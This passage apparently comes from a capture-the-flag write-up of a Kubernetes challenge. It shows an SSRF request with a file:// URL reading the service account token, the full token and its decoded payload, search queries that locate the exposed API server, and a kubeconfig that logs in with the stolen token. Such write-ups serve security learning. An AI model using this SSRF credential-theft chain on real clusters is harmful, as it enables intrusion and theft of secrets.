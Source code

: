 ```bash
signature algorithm: SHA256withRSA
signature: 151b2910fae3df3b...

SerialNumber:	0795521aa5bdc5335ab5e6686671dd8f
SHA1 Thumb Print:	b8a0662f55d6f6888538af0d9d64450d345fbac9
```

With the issuer CN `898e571e-36e2-42e6-aaf9-89ff7c970d45`, we can search on the Internet for exposed Kubernetes master  (e.g. [Censys](https://search.censys.io/search?resource=hosts&q=services.tls.certificates.leaf_data.issuer.common_name%3A%22898e571e-36e2-42e6-aaf9-89ff7c970d45%22) or [Shodan](https://www.shodan.io/search?query=ssl.cert.issuer.cn%3A%22898e571e-36e2-42e6-aaf9-89ff7c970d45%22)) and locate the API server.

```bash
firebird@ac96ad13d621:/proc/self$ curl -cv --output - http://proxy.balsnctf.com/query?site=file:///run/secrets/kubernetes.io/serviceaccount/token
eyJhbGciOiJSUzI1NiIsImtpZCI6IjE1WVE0T0ctYUFaeWtfTXN0ejgtbmNaMlpJMUVpQ1ZPTkNjNEpQLUh3YWMifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJkZWZhdWx0Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZWNyZXQubmFtZSI6InNhLWNoYWxsLXRva2VuLTRrcjRjIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6InNhLWNoYWxsIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQudWlkIjoiYzIyMTczYzktNzU3NC00ZDMyLWIwZDMtYTVlZWYwY2U1ZTU3Iiwic3ViIjoic3lzdGVtOnNlcnZpY2VhY2NvdW50OmRlZmF1bHQ6c2EtY2hhbGwifQ.jvDsvC2Hc1elQQ6hwmp8qjN496f2Mgxdoa17I-g52T_m5Veg5c9Icia-RzsRu-RfGh0yfHFJJUA0Bd7eyeVyckeOqcsZ8LfBG9wAyq5Sbg-OJDEq81_bQ7922NxXi_wYzNktBtvKVRtA3fzKaUdxcnH11_KxwUaGz7TZCBFsLsBKbLGFZideDuj37iMOUl6fRptVD46pZhXPLcv5uC61NKiP-hUoaTFgZ8dcGvg9Brgo6ynwgGQDlK8xk78BIsUhMv4bb9JkUDctmiUAhuCssWCA--yvaw0nE_boa8JtMEbTmwFGznGKWJVSIT-W0Cu3jmdO34Scxs3r-KlVhru1EQ

# Payload contains...

{
  "iss": "kubernetes/serviceaccount",
  "kubernetes.io/serviceaccount/namespace": "default",
  "kubernetes.io/serviceaccount/secret.name": "sa-chall-token-4kr4c",
  "kubernetes.io/serviceaccount/service-account.name": "sa-chall",
  "kubernetes.io/serviceaccount/service-account.uid": "c22173c9-7574-4d32-b0d3-a5eef0ce5e57",
  "sub": "system:serviceaccount:default:sa-chall"
}
```

Then we can login to the master with the service account token.

```yaml
apple@debian:~/$ cat ~/.kube/config

apiVersion: v1
clusters:
- cluster:
    insecure-skip-tls-verify: true
    server: https://35.194.230.23
  name: test
contexts:
- context:
    cluster: test
    namespace: default
    user: sachall
  name: default
current-context: default
kind: Config
preferences: {}
users:
- name: sachall
  user:
```